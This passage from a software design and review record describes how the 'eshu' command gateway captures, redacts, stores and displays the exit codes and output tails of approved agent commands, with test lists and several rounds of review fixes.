  (JIT, session override, F3 plan after a reconnect). An unknown `path` is a
  400 and stores nothing. Test: a lockbox result attaches to an `approved`
  row.
* **D4 — first result wins.** `INSERT OR IGNORE`; a second post returns
  `200 {attached: false, reason: "already_has_result"}` and never overwrites
  the stored output.
* **D5 — the request must be executable.** A `request_id` must also be
  `approved`/`consumed`; a result for `pending`/`denied`/`blocked` is a 400
  (`not_executable`), so a forged post cannot make a denied command look run.
* **D6 — bound the orphan table and rate-limit the endpoint.** At most 50
  orphans per gateway (oldest dropped), `/api/exec-result` goes through
  `_check_rate_limit`, and the endpoint is gateway-token-only via
  `_require_gateway(request, target_ip)` — a dashboard session cannot post.
* **D7 — the run-dir check mirrors the poller**: missing, symlink, mode ≠ 700
  **or owner uid ≠ 0** disables capture (`exit-only`); the gateway never
  creates `/run/eshu` itself.
* **D8 — small bash points.** The setting is read with `IFS= read -r v <
  file` (a trailing newline cannot turn `tail` into `exit-only`); if the FIFO
  exists but the pipeline takes the no-FIFO branch the reader is killed
  (`kill "$ESHU_TAIL_PID"`) so it never sits blocked on `open()`; the `EXIT`
  trap is the first in the script and carries a comment that any later trap
  must extend it.

Corrected capture/post snippet (the `tee` and body lines are the deltas):

```bash
# startup, once
TEE_NOPIPE="0"
if tee -p /dev/null </dev/null >/dev/null 2>&1; then TEE_NOPIPE="1"; fi

capture_mode() {
  local v="exit-only"
  if [ "$TEE_NOPIPE" = "1" ] && [ -f "$ESHU_CAPTURE_FILE" ] \
     && [ ! -L "$ESHU_CAPTURE_FILE" ]; then
    IFS= read -r v < "$ESHU_CAPTURE_FILE" || true   # D8: no newline surprise
    case "$v" in off|exit-only|tail) ;; *) v="exit-only" ;; esac
  fi
  printf '%s' "$v"
}

post_exec_result() {   # $1=rc  $2=duration_ms  $3=mode  $4=path
  ...  # same body build as § 2, plus "path":"'"$path"'"
  # D2: stdin, not argv.
  { printf '%s' "$body" | curl ... --data-binary @- ... ; } >/dev/null 2>&1 &
}

# inside run_sanitized, the FIFO branch (D1, D8)
if [ -d "$ESHU_RUN_DIR" ] && [ ! -L "$ESHU_RUN_DIR" ] \
   && [ "$(stat -c '%a' "$ESHU_RUN_DIR")" = "700" ] \
   && [ "$(stat -c '%u' "$ESHU_RUN_DIR")" = "0" ]; then
  ...
  "$@" 2>&1 | sanitize | tee -p "$ESHU_OUT_FIFO" 2>/dev/null || rc=$?
  wait "$ESHU_TAIL_PID" 2>/dev/null || true
else
  if [ -n "$ESHU_TAIL_PID" ]; then kill "$ESHU_TAIL_PID" 2>/dev/null || true; fi
  "$@" 2>&1 | sanitize || rc=$?
fi
```

#### 3. `capture_output` setting (policy → `/etc/eshu-capture`)

* New per-gateway policy field `capture_output: "off" | "exit-only" | "tail"`,
  default `exit-only`, delivered in the policy poll like `zero_trust`.
* Poller: after the policy JSON is validated, write the value atomically
  (`/etc/eshu-capture.tmp` → `mv`) — same pattern as `/etc/eshu-zero-trust` —
  and delete the file when the field is absent (old dashboard), which the
  gateway treats as `exit-only`.
* The dashboard validates the setting (the three literals) on write and in the
  policy response; the gateway re-validates (it is the enforcement point).
* `off` posts nothing at all (not even an exit code); `exit-only` posts the
  row with `encoded_output: ""`, `output_truncated: false`.

#### 4. Storage, matching and size caps

**Table** (`db/core.py` init, new `db/exec_results.py`):

```sql
request_results(
    request_id INTEGER PRIMARY KEY,   -- one result per request
    exit_code INTEGER NOT NULL,
    duration_ms INTEGER NOT NULL,
    output TEXT NOT NULL DEFAULT '',
    truncated INTEGER NOT NULL DEFAULT 0,
    created_at INTEGER NOT NULL
)
```

`INSERT OR IGNORE` on `request_id` (D4): the first stored result wins and a
retry is a harmless `attached: false`.

**Caps**

| Where | Cap |
|---|---|
| Gateway stream → file | 16 384 B (+1 sentinel byte) |
| Gateway body | base64 output ≈ 21.9 KB + envelope < 24 KB |
| Dashboard request body | 64 KB (`Content-Length` checked before parse → 413) |
| Stored output | 16 384 B (the dashboard re-caps, keeping the tail, and forces `truncated=1` if it had to cut) |
| Retention | 30 days default, 1–365, `meta` key `exec_result_retention_days` (Settings input) |

**Matching rules** (`db/exec_results.py`)

1. With `request_id`: the request must exist, be `target_ip`-owned, still have
   no result, and be `approved` or `consumed` (D5). Unknown → 400
   `unknown_request`; wrong state → 400 `not_executable`; a second post →
   200 `{attached: false, reason: "already_has_result"}` (D4, `INSERT OR
   IGNORE`, the stored output is never overwritten). Never attach by guess.
2. Without it: newest row for `(target_ip, sha256(command))` created in the
   last 120 s with the status set selected by `path` (D3): `allowlist` →
   `auto-approved`; `window` → `window-approved`; `lockbox`/`jit` →
   `approved`/`consumed`; with no `request_results` row. `path` is an
   internal literal; an unknown value is a 400. `sha256` is computed on the
   decoded command — the same bytes `/api/log` stored.
3. Nothing yet: insert an `exec_result_orphans` row
   (`target_ip, cmd_sha, exit_code, duration_ms, output, truncated, created_at`).
   `/api/log` calls `attach_orphan(target_ip, sha256(cmd), new_request_id)`
   right after it creates an `auto-approved`/`window-approved` row, oldest
   orphan first, deleting it on attach. Orphans are also swept by the cleanup
   loop after 120 s.

The orphan buffer exists because `log_auto_approve` and the result post are
both background curls: on a fast command the result can arrive before
`/api/log` has created the row it belongs to. Dropping it would lose exactly
the executions the operator most wants to see.

**Why a separate output endpoint.** Output is up to 16 KiB per row; the
history list can return 200 rows. `GET /api/requests` joins only the summary
columns; `GET /api/requests/{id}/output` (session auth) returns
`{request_id, exit_code, duration_ms, truncated, output}`.

#### 5. Redaction

1. **Gateway (`sanitize`, unchanged, first pass)** — the tap is after it, so
   the temp file never contains the secrets the gateway already strips. This
   is why the capture cannot be taken from the raw command stream.
2. **Dashboard (`core/secret_scrub.scrub_body`, second pass)** — applied to the
   decoded output before storage, catching gateway-side misses (broader
   patterns, tokens in JSON blobs). Stored bytes are the scrubbed bytes; the
   API returns the stored bytes; the response never re-scrubs (idempotent).
3. The audit event records `request_id`, `exit_code`, byte length and whether
   it was truncated — never the output, and never the command text (the
   request row already has it).
4. The output is agent-controlled text: the UI escapes it (`escapeHtml`) and
   renders it in a `<pre>`-style block with a max height; a node-harness test
   proves the escaping, like F2/F7.

#### 6. Retention

* `meta.exec_result_retention_days` (default 30, clamped 1–365) read by the
  existing cleanup loop (`_stale_gateway_cleanup_loop`), which already runs on
  a timer: `DELETE FROM request_results WHERE created_at < now - days*86400`
  and the same for orphans older than 120 s.
* Deleting a result never deletes or changes the request row; the UI simply
  loses the badge.
* The setting gets a small field in Settings next to the other dashboard
  settings; the default works with no UI interaction.

#### 7. UI

* **History rows**: `exit 0` (calm) / `exit N` (warning) badge and a duration
  (`1.2 s`) next to the status chip, only when a result exists; a `show output`
  toggle on the row's detail area (or the context panel) fetches the output
  once and renders it escaped in monospace with a max height, next to a
  `truncated` note when the tail was cut.
* **Session modal**: the same badge/duration per command row, and the plan /
  session timeline keeps working with no result.
* **Session summary**: `get_session_summary` adds `failed` — the count of this
  session's requests with a result and `exit_code != 0` — next to the existing
  outcome counters.
* No new auto-approve path, no change to what runs; display only.

#### 8. Compatibility (old gateway ↔ new dashboard, and back)

* **Old gateway + new dashboard**: it never calls `/api/exec-result`, so no
  results, no badge, nothing else changes. `/api/requests` still returns the
  same fields (the result columns are additive, `NULL` when absent).
* **New gateway + old dashboard**: `POST /api/exec-result` 404s; the post is
  fire-and-forget (`>/dev/null 2>&1 &` alongside `|| true`), so the command,
  its output, its exit code and the sentinel are unchanged. No retry queue.
* **New dashboard + old poller**: the old poller never writes
  `/etc/eshu-capture`; the gateway defaults to `exit-only`, so results carry
  exit/duration but no output until the fleet updates.
* **`capture_output` in the policy JSON** is additive; old gateways ignore
  unknown keys. The dashboard must send it on every policy response (default
  `exit-only`) so a gateway that used to capture is told to stop when the
  operator changes it.
* **Installers**: `dashboard/eshu-gateway.sh` changes → `gen_installer.py`
  regenerates both `dashboard/eshu-gateway-install.sh` and
  `dashboard/static/eshu-gateway-install.sh` in the **same commit**;
  `dashboard/static/dev/` is never touched (§ 2.2). The golden installer test
  must stay green.

#### 9. Privacy (§ 2.5)

Captured output is the most sensitive data this system will hold: real command
output can contain hostnames, paths, tokens and personal data. Therefore:

* Fixtures and tests are **synthetic** only: `192.0.2.x` / `198.51.100.x`,
  `web01`, invented `journalctl` lines, no real captures, no copy of a live
  database.
* `eshu.db` is never committed (already ignored); the new table must not
  appear in any fixture dump.
* The design stores the tail only, scrubbed twice, for 30 days by default —
  the shortest useful window, not "forever".
* Screenshots for this chunk (if any) use the synthetic sandbox output.

#### 10. Test list (every item becomes `test_f5_*`)

Gateway sandbox (`tests/test_gateway_script.py` extended: the fake `curl`
records the body, `ESHU_RUN_DIR` and `ESHU_CAPTURE_FILE` are relocated to
`tmp_path`, no root/network):

1. `test_f5_gateway_exit_zero_posts_result` — exit 0, `exit_code=0`, duration
   present, no sentinel in the body.
2. `test_f5_gateway_nonzero_exit_posts_result` — `false`; `exit_code=1`; the
   agent still sees `[ESHU exit=1]` and the body's output does not contain it.
3. `test_f5_gateway_tail_is_last_16k` — 20 KiB output; posted output is the
   last 16 384 bytes, `output_truncated=true`; 16 KiB exactly is not flagged.
4. `test_f5_gateway_capture_off_posts_nothing` — `/etc/eshu-capture=off`; no
   `/api/exec-result` call at all.
5. `test_f5_gateway_exit_only_has_no_output` — empty `encoded_output`,
   `truncated=false`, exit/duration still correct.
6. `test_f5_gateway_agent_output_unchanged` — the golden regression: stdout +
   stderr bytes for a mixed command are identical with capture on/off
   (byte-compare against the pre-change output).
7. `test_f5_gateway_jit_result_carries_request_id` — the JIT poll path sends
   `request_id`; the lockbox/allowlist paths omit it.
8. `test_f5_gateway_sanitize_before_capture` — a token-shaped value is
   `[REDACTED]` in the posted output (the gateway pass runs first).
9. `test_f5_gateway_temp_files_removed` — no `eshu-out.*` / `eshu-fifo.*`
   left in the run dir after the command; and
   `test_f5_gateway_unsafe_run_dir_disables_capture` — missing/symlinked/
   0700-missing dir → no capture, command still runs and prints normally.
10. `test_f5_gateway_bad_capture_value_is_exit_only` — garbage/link content
    never enables `tail`.
11. `test_f5_gateway_body_fields_are_safe` — hostile session/execution ids
    are refused before any post (security chunk 1 rules still hold).

Dashboard (FastAPI fixtures, hermetic):

12. `test_f5_match_allowlist_by_sha` — result without `request_id` attaches to
    the newest matching `auto-approved` row for that gateway.
13. `test_f5_match_window_row` — same for `window-approved`.
14. `test_f5_no_double_attach` — two identical commands: each result lands on
    its own row, newest-without-result first.
15. `test_f5_unknown_request_id_rejected` — unknown id → 400, stored nowhere;
    another gateway's id → rejected.
16. `test_f5_duplicate_result_is_idempotent` — same `request_id` twice keeps
    one row (no duplicate, no error).
17. `test_f5_result_before_log_is_orphaned_then_attached` — post first,
    `/api/log` second: the orphan attaches to the new row and is deleted.
18. `test_f5_scrub_applied` — a token in the output is scrubbed before
    storage; the API returns the scrubbed text.
19. `test_f5_output_cap_server_side` — oversized output is cut to the tail and
    `truncated=1`.
20. `test_f5_retention_cleanup` — old results and old orphans deleted, fresh
    ones kept; the request rows survive.
21. `test_f5_output_endpoint_requires_session` — 401/403 without a session;
    404 for a request with no result.
22. `test_f5_session_summary_failed` — `failed` counts only `exit_code != 0`.
23. `test_f5_old_gateway_still_works` — a dashboard with no results serves the
    history/session views unchanged (additive fields `NULL`/absent).
24. `test_f5_new_gateway_against_old_dashboard` — a 404 from the endpoint does
    not alter the command's output or exit code (sandbox: fake curl 404).
25. UI (node harness on `appjs_loader.js`, F2/F7 pattern):
    `test_f5_output_escaped` (agent output with `` is escaped in
    the rendered block) and `test_f5_exit_badge_rendered` (exit 0 / exit 7 /
    no result).

Also required by the acceptance criteria: the golden installer test stays
green after `gen_installer.py`, and `bash scripts/verify.sh` is green with the
new tests.

#### 11. Deliberately not done / open for the reviewer

* No change to the ticket-lockbox format, so the claim-and-burn path still
  matches by `(target_ip, sha256)` instead of carrying a request id.
* No live streaming of output to the dashboard (post-execution tail only).
* No per-result encryption at rest beyond the existing SQLite file
  permissions; the retention window is the control.
* No UI for the retention setting beyond one number field (default 30).
* `capture_output` is per gateway, not per session; a session can't opt in.
* Backlog for the security owner (D2): the gateway token header and the
  command in `/api/log`'s argv remain visible in `/proc/*/cmdline`; F5 moves
  only the exec-result body to stdin. Streaming output live, encrypting it at
  rest and per-session capture are also backlog (§ 7 of the design).


### Implementation (folded in after the design review)

The D1–D8 points are part of the design now (§ 2b); this is what landed.

**Gateway** (`dashboard/eshu-gateway.sh`, installers regenerated in the same
commit)
* `capture_mode()` reads `/etc/eshu-capture` with `IFS= read -r` (D8) and
  accepts only `off | exit-only | tail`; a missing/garbage/symlinked file or a
  `tee` without `-p` is `exit-only` (D1).
* `run_sanitized` tees the sanitized stream through a 0600 `mktemp` file and a
  FIFO read by `tail -c 16385` (bounded tmpfs, race-free `wait`), checks the
  run dir is 0700 **and** uid 0 (D7), keeps the `EXIT` trap first with a
  comment that later traps must extend it (D8), kills the reader if it has to
  skip the FIFO branch (D8), and never touches stdout: `tee -p` ignores a dead
  reader, with its diagnostic on `/dev/null` (D1).
* `post_exec_result` builds the body with `path` (D3) and the digits-only
  `request_id`, then pipes it to `curl --data-binary @-` on **stdin** (D2).
  Call sites set `RESULT_PATH` (`allowlist`, `lockbox`, `jit`, `window` in the
  feature script) and the JIT poll path sets `RESULT_REQUEST_ID`.
**Poller**: writes `/etc/eshu-capture` atomically from the policy field,
defaulting to `exit-only` for absent/garbage. **Dashboard**: policy response
carries `capture_output`; `POST /api/gateways/{ip}/capture` sets it; the
gateway table has a small `off/exit/tail` select.

**Dashboard**
* `db/exec_results.py` + tables in `db/core.py`; gateway-only
  `POST /api/exec-result` (`_require_gateway` is not enough — D6 requires the
  token outright), rate-limited.
* Matching (D3): `request_id` → must belong to the gateway and be
  `approved`/`consumed` (D5); otherwise the `path` picks the status set
  (`allowlist` → `auto-approved`, `window` → `window-approved`,
  `lockbox`/`jit` → `approved`/`consumed`) and the newest unresulted row for
  `(ip, sha256(exact command))` in 120 s wins. No match → a bounded orphan
  (50/gateway, 120 s) attached by `/api/log` when the row appears. First result
  wins (`INSERT OR IGNORE`, `attached: false` on a retry — D4).
* Output is scrubbed with `secret_scrub.scrub_body` before storage, capped at
  16 KiB (the tail, `truncated=1`), and cleaned by the existing loop with
  `meta.exec_result_retention_days` (default 30, 1–365).
* `get_all_requests` / `search_requests` / `get_session_requests` join the
  summary columns (`exit_code`, `duration_ms`, `output_truncated`); the output
  itself is `GET /api/requests/{id}/output` (session auth, on demand).
* UI: `exit N` + duration on history rows and in the session modal, an
  "output" button opening an escaped monospace modal (`execOutputHtml`), a
  capture select on the gateway row. `get_session_summary` adds `failed`.

**Two existing tests changed (with reasons in the commit message)**
* `tests/test_gateway_script.py::test_sec_chunk1_allowlist_log_body_is_well_formed`
  now selects the `/api/log` calls only — the gateway legitimately makes a
  second post (`/api/exec-result`) with a different body shape.
* `tests/test_poller.py::test_first_run_parses_once_per_cycle` expects 17
  python starts instead of 16: the new `capture_output` field is parsed in the
  same stale-policy branch; the steady-state test still proves a clean cycle
  starts none.

**Surprises / decisions**
* `auto-approved` rows (the allowlist path) are created by the *background*
  `/api/log` call, so they cannot carry a `request_id`; that path always
  matches by sha. The JIT poll path is the only one that knows the id; the
  lockbox claim path cannot (ticket is `ts|cmd`), which D3's `path` handles.
* The result post is fire-and-forget: a 404 (old dashboard) or a dead
  connection changes nothing about the command (tested).
* The retention setting has no Settings input yet; the default 30 days and
  `set_retention_days()` are in place, and the cleanup loop reads it.

**Deliberately not done**
* No live streaming, no encryption at rest beyond file permissions, no
  per-session opt-in (all listed as backlog in the design).
* No Settings number field for retention (see above).
* The token header/argv exposure noted in D2 stays as backlog (only the exec
  body moved to stdin).

**Tests** — `tests/test_f5_exec_results.py` (37): the whole § 10 list, plus
D1 (dead reader keeps stdout), D3 (lockbox attaches to an `approved` row),
D4 (idempotent), D5 (non-executable rejected), D6 (orphan cap, session cannot
post), and the poller capture tests (3) in `tests/test_poller.py`.

**Screenshots** (synthetic `web01` / `192.0.2.x` fixtures)

* The exit badge and duration on a history row (`exit 1 · 3.1 s` with the
  output link):
  
* The "show output" view (escaped, monospace, max height):
  

`bash scripts/verify.sh` (pre-commit green):

```
1779 passed, 7 warnings in 358.58s (0:05:58)
```

(1739 before this chunk + 37 F5 tests + 3 poller tests.)

### Round 2 — fixes for code review round 1 (E1–E4)

**E1 — capture no longer keeps commands alive after the agent disconnects.**
Reverted `tee -p` to plain `tee`, and made the reader unable to stall the pipe
instead: `{ tail -c 16385 > "$ESHU_OUT_TAIL" || true; cat > /dev/null; } <
"$ESHU_OUT_FIFO" &` — if `tail` dies, `cat` keeps draining. The `tee -p`
startup probe is gone (one fewer fork per command), and the disconnect
behaviour is back to today's: the next write after the agent leaves gets
SIGPIPE. Tests: `test_f5_gateway_disconnect_ends_command_in_tail_mode` and
`test_f5_gateway_disconnect_ends_command_in_exit_only_mode` (endless `yes`,
the reader closed after 16 bytes, the process exits within 2 s with 141), and
`test_f5_gateway_dead_reader_keeps_stdout` (the `tail` process dies, `cat`
drains, stdout stays byte-identical). Installers regenerated in the same
commit; `static/dev/` untouched.

**E2 — request body caps.** `ExecResultPayload.encoded_output` is capped at
24 576 chars (16 KiB raw + base64 envelope) and `encoded_command` at 16 384 —
the `/api/log` limit. Test: `test_f5_oversized_body_is_422` (both fields).
The server-side re-cap test now sends 17 KiB raw, because anything over the
base64 cap is a 422 before it can be truncated.

**E3 — no audit row per execution.** Dropped the `exec_result` audit event;
the results table is the record (a command's execution is not a decision).
Test: `test_f5_no_audit_event_per_result`.

**E4 — a wider lockbox window.** The `lockbox` path matches within 300 s
(JIT wait up to 90 s + ticket life 90 s + reconnect slack); `allowlist` and
`window` stay at 120 s. Test: `test_f5_lockbox_match_window_is_wider` — a
200-second-old `approved` row attaches via the lockbox path, while an equally
old `auto-approved` row is orphaned by the allowlist path.

Full gate:

```
1784 passed, 7 warnings in 360.54s (0:06:00)
```

(1779 before this round + 5 new tests: two disconnect, oversized body, no
audit event, lockbox window.)

### Round 3 — the CI hang in the capture reader (fix)

GitHub's `Run test suite` failed on every push from F5 onward: six gateway
tests timed out (`exit_zero_posts_result`, `nonzero_exit_posts_result`,
`agent_output_unchanged`, `sanitize_before_capture`, `temp_files_removed`,
`result_post_failure_is_harmless`), all of them a `tail`-mode run with under
16 KiB of output, while the same tests passed on every machine tried here
(fresh venv with only `requirements-dev.txt`, clean `/etc`, C locale, 6× CPU
oversubscription, a real Ubuntu 24.04 rootfs as uid 1000).

The reader was the problem: `{ tail …; cat …; } < "$FIFO" &` plus `wait`.
On the runners it never saw EOF, so the call (and with it the test's
`subprocess.run`) waited for ever; a gateway call that never returns is a
root process that never returns. Making the wait bounded and detaching the
reader's stdio turned the hang into a visibly empty capture and proved the
reader was the stuck part (`CAPTURE READER WEDGED` in the log).

**The reader is gone.** `capture_tail()` keeps the last 16 KiB + 1 *in the
stream*: one `awk` that passes every line through to the agent
(`print; fflush()`), keeps a bounded window in memory, and writes the file at
`END`. No FIFO, no second process, no wait, so there is nothing that can
wedge. The properties the FIFO existed for are unchanged and tested: output
still streams live (`test_f5_gateway_output_streams_live`), the stream is
still never cut on a disconnect (E1 tests), the stored bytes are still capped
at 16 KiB, and a failing trimmer cannot change the command's exit code
(the test now named `test_f5_gateway_unwritable_capture_keeps_stdout_and_exit`,
see round 4). A capture that cannot
be set up now logs `CAPTURE DISABLED` with the reason instead of silently
degrading.

`test_f5_gateway_dead_reader_keeps_stdout` was replaced by the two tests
above: the reader it guarded no longer exists, and its replacement pins the
behaviour that matters.

`bash scripts/verify.sh`: `2330 passed, 7 warnings in 431.19s (0:07:11)`.

### Round 4 — CI fix review round 3 (C1–C4)

The reviewer reproduced four problems in `capture_tail()` on synthetic input.
All four are fixed. The tests now run the function under **mawk and gawk**
(whichever is installed; a missing one skips with a reason), because that is
the environment difference that matters for a gateway: Debian and Ubuntu ship
mawk as `awk`.

* **C1 — the trimmer could change the exit code.** `set -o pipefail` reported
  awk's status as the command's: an unwritable capture file turned rc 0 into 2
  and rc 3 into 2. `rc` now comes from `PIPESTATUS[0]` of the stream (`set +e`
  around the pipeline so `set -e` cannot exit before the sentinel and the
  post). The non-capture branch takes `PIPESTATUS[0]` too, so a failing
  `sanitize` can no longer mask the command either. The awk write is best
  effort: its stderr is not pushed into the agent's stream, a failure logs
  `CAPTURE FAILED`, the `EXIT` trap is quiet when the file is already gone,
  and `post_exec_result` reads only a regular file. The old test stubbed
  `tail`, which the run no longer calls, so it passed without exercising
  anything; `test_f5_gateway_unwritable_capture_keeps_stdout_and_exit`
  replaces it. The command replaces the `mktemp`ed capture path with a
  directory (this fails as root too, unlike a `chmod`), prints 20 000 bytes
  and exits 7; the test asserts rc 7, the full stream, `[ESHU exit=7]`, the
  `CAPTURE FAILED` log and an empty stored output.
* **C2 — quadratic cost.** The 16 KiB buffer was re-copied for every line
  (26.6 s for `seq 2000000` with gawk). It is now a ring of lines with a
  running byte total: drop the oldest while the rest is still ≥ 16 385 bytes,
  trim the first line at `END` to exactly 16 385 bytes. That is
  byte-identical to `tail -c 16385`, and 200 000 lines take ~0.3 s.
  `test_f5_capture_tail_is_linear_in_the_output` bounds it at 10 s — loose
  enough for a slow runner, still an order of magnitude below the quadratic
  case.
* **C3 — locale.** The cap is bytes, so awk runs with `LC_ALL=C`. In a UTF-8
  locale gawk counts characters: the multibyte payload would store 19 835
  bytes where the cap is 16 385, and mawk and gawk treat invalid byte
  sequences differently. Payloads: multibyte text and invalid bytes, each
  compared byte for byte with `tail -c 16385`.
* **C4 — missing final newline.** Portable awk cannot see it (only gawk's
  `RT`), so a stream that does not end in "\n" stores one extra newline.
  Accepted rather than emulated, stated in § 2.7, and pinned by
  `test_f5_capture_tail_matches_tail_c_16385[no-final-newline-…]`.

**Why the old reader never saw EOF.** Not conclusively established: the
bounded wait showed the reader blocked in `cat` waiting for EOF, so something
still held the FIFO's write end after `tee` finished; which process that was
was never identified. The reader is gone, so the question is closed either
way.

New file `tests/test_f5_capture_tail.py` lifts the `capture_tail` definition
out of the script (asserting it is still there, under `LC_ALL=C`) and runs it
with `awk` bound to each implementation: the cap and byte-exactness over
varied, huge-single-line, empty-line, multibyte and invalid-byte payloads, the
stream unchanged, linear cost, the write failure, and no log on success.

Both installers were regenerated in this commit
(`python3 dashboard/gen_installer.py`).

`bash scripts/verify.sh`: `2352 passed, 7 warnings in 429.69s (0:07:09)`.

### Round 5 — CI fix review round 4 (C5)

* **C5 — dropped ring lines were never freed.** The ring advanced `head` but
  left `line[head % 20000]` in the array until its slot was reused, so up to
  20 000 dropped lines stayed resident: 200 MB of output peaked at 395 MB
  resident instead of 16 KiB. The loop now `delete`s both `line` and `size`
  for the slot it drops.
  `test_f5_capture_tail_frees_dropped_lines` streams 2000 × 100 KB lines
  through the function under `ulimit -v 65536` (64 MB) for each awk, so a leak
  is fatal rather than slow, and still asserts the stored bytes are
  `tail -c 16385`. Without the `delete`s the test fails under both awks; the
  two-awk run takes about 2 s.

Both installers were regenerated in this commit
(`python3 dashboard/gen_installer.py`).

`bash scripts/verify.sh` (gawk installed): `2354 passed, 7 warnings in 430.48s (0:07:10)`.
`bash scripts/verify.sh` (gawk absent here, so its parameters skip):
`2342 passed, 12 skipped, 7 warnings in 433.29s (0:07:13)`.

**A test-oracle note.** On one CI run (`05d72f2`) the *linear* test failed
while `capture_tail` had stored the correct 16 385 bytes: the oracle, a
`tail -c 16385` subprocess, returned a 32.5 KB suffix. The test no longer
depends on a tool it is not testing — `_tail` slices the payload in Python
(`data[-CAP:]`), which is exactly what `tail -c CAP` means for a byte string.

### Round 6 — the buffering fix (B1–B4)

**Commit: `5b0f5e4`.** It contains `dashboard/eshu-gateway.sh` and both
regenerated installers; the security reviewer signs off this diff.

* **B1 — `sanitize` is line-buffered.** GNU `sed` block-buffers its output
  into a pipe, so a slow command's first bytes never reach a closed
  connection and the command keeps running (the D1 check timed 39–41 s in
  every mode, including `exit-only`). `sanitize` now runs
  `stdbuf -oL sed -E …`; `stdbuf` is looked up once per call on the fixed
  PATH, and when it is missing (BusyBox) the script falls back to plain `sed`
  and writes one line to syslog. The redaction expressions are unchanged,
  and every existing sanitize test passes unchanged.
  `test_f5_gateway_without_stdbuf_still_runs` runs the fallback with the
  sandbox's `stdbuf=False` seam and asserts the output, the exit code and the
  result row are still correct (and the syslog line is present).
* **B2 — `-W interactive` was measured and rejected.** mawk does
  block-buffer its stdin, but `-W interactive` makes mawk split **any record
  longer than 4096 bytes**: a 20000-byte line becomes five records, and the
  agent's stream gains four newlines that were never in the command's output.
  That breaks F5's byte-exactness contract (the C4 newline is the only
  accepted deviation), so the option is not passed. `stdbuf -i0` was also
  measured and does not change mawk's reader (it keeps its own buffer), so
  no wrapper is used. **Consequence:** on mawk, a *very* slow writer (under
  ~4 KiB after the agent hangs up) is still held in awk's input buffer, so
  the disconnect is noticed only when the buffer fills. This is the
  pre-existing mawk behaviour the D1 check identified; the command was
  already approved and no privilege is gained, and F19's time limit is the
  bound for unattended runs. `test_f5_capture_tail_does_not_use_mawk_interactive`
  pins the decision at the source, and the 20000-byte payload test is the
  behavioural guard.
* **B3 — the slow-writer test, through `run_sanitized`.**
  `test_f5_gateway_slow_writer_dies_with_the_agent` runs a writer that prints
  every 0.1 s for 60 s through the real gateway in `tail` and `exit-only`
  modes, closes the reading end after the first line, and asserts the
  gateway and the command are gone within 5 s. Under **gawk** both modes pass
  (about 0.3 s). Two cases skip with a stated reason: **mawk** (the B2
  input-buffer residual) and **SIGPIPE ignored** — with SIGPIPE ignored GNU
  `sed` keeps reading after EPIPE, so no buffering change can bound the
  command; `yes | stdbuf -oL sed | head -1` hangs the same way under
  `trap '' PIPE`. sshd gives its children the default signal, and the
  function-level D1 test still covers awk in both modes.
* **B4 — carried forward.** F12's MCP capture moves onto `capture_tail`
  (separate branch) and F19's pipeline is redrawn on this `sanitize`
  (design round 3). F19's time limit remains the bound for unattended runs,
  whatever the buffering does.

Both installers were regenerated in this commit.

`bash scripts/verify.sh`: `2366 passed, 6 skipped, 7 warnings in 432.32s (0:07:12)`.

### Reviewer notes

**Design round 1 (2026-11-08): approved with changes.** Fold D1–D8 into the
design section, then implement on this branch. No second design round is
needed; I check D1–D8 in the code review. The design is sound. The
sanitize-then-tee position, the FIFO plus `tail -c 16385` bound, the sentinel
staying outside the capture, the `/etc/eshu-capture` fail-safe and the orphan
buffer are all the right calls.

*Must address:*

* **D1 Capture must never cut the agent's output.** With plain `tee`, if the
  FIFO reader dies (OOM, killed), tee's next write to the FIFO raises SIGPIPE
  and tee exits, so the agent's stream is truncated and `rc` becomes 141.
  * Use `tee --output-error=warn-nopipe` (`-p`), so a dead FIFO is ignored and
    stdout keeps flowing.
  * Check at startup that the option exists. If it doesn't (non-GNU tee),
    capture degrades to `exit-only`.
  * Test: kill the reader mid-stream; stdout stays byte-identical and `rc` is
    the command's.
* **D2 Output and command off the process list.** `curl -d '…'` puts the
  base64 output, up to ~22 KB of sanitized command output, into argv, and any
  local user can read argv in `/proc/*/cmdline`. Send the body on stdin
  (`printf '%s' "$body" | curl --data-binary @- …`). The token header and
  `/api/log`'s command in argv are an existing exposure and out of scope.
  Note them in §11 for the security backlog.
* **D3 Lockbox-claim results must match.** That path runs rows that are
  `approved`/`consumed` (JIT, session override, F3 plan after a reconnect).
  Rule 2 only looks at `auto-approved`/`window-approved`, so those results
  would be orphaned, then dropped. The acceptance criterion "visible for JIT …
  and plan paths" fails.
  * Send an internal-literal `path` field: `allowlist` | `window` | `lockbox`
    | `jit`.
  * Rule 2 then picks the status set per path: `lockbox` matches
    `approved`/`consumed` rows for `(ip, sha256)`, decided in the last 120 s.
  * Unknown `path` → 400.
  * Add the test.
* **D4 First result wins.** §4 says `INSERT OR REPLACE` and rule 1 says 409,
  but test 16 says idempotent; these contradict each other. Use
  `INSERT OR IGNORE`, return 200 `{attached: false, reason: "already_has_result"}`,
  and keep the first stored output. A later post must never overwrite a
  stored result.
* **D5 Rule 1 checks status too.** A `request_id` must also be in an
  executable state (`approved`/`consumed`). A result for a `pending`,
  `denied` or `blocked` row is rejected, so a forged post cannot make a denied
  command look as if it ran.
* **D6 Bound the orphan table.** Cap orphans per gateway (e.g. 50, oldest
  dropped). Apply the existing `_check_rate_limit` to `/api/exec-result`. The
  endpoint is gateway-only via `_require_gateway(request, target_ip)`, so the
  token is bound to the IP like `/api/log`. A dashboard session cannot post
  results.
* **D7 Run dir checks mirror the poller.** Besides missing, symlink and mode
  700, also require owner uid 0 (`stat -c '%u'`), as `eshu-poller.sh` does.
  The poller creates `/run/eshu`. If the gateway runs before the poller has
  started after a boot, capture is simply `exit-only`; the gateway must not
  create the dir itself.
* **D8 Small bash points.**
  * Read the setting with `IFS= read -r v < "$ESHU_CAPTURE_FILE"`, so a
    trailing newline from any writer doesn't turn `tail` into `exit-only`.
  * If `mkfifo` succeeds but the pipeline later takes the no-FIFO branch, kill
    the reader (`kill "$ESHU_TAIL_PID"`) so it doesn't sit blocked on `open()`
    forever.
  * The `EXIT` trap is the first in the script. Put a comment there saying any
    later trap must extend it, not replace it.

*Answers to §11:*
* **Ticket format:** keep it as is; D3 covers it.
* **Streaming, encryption, per-session opt-in:** agreed out of scope; list
  them in §7 backlog.
* **Single retention field:** fine.
* **Security sign-off:** not required for F5 (§2.6a list), since it adds no
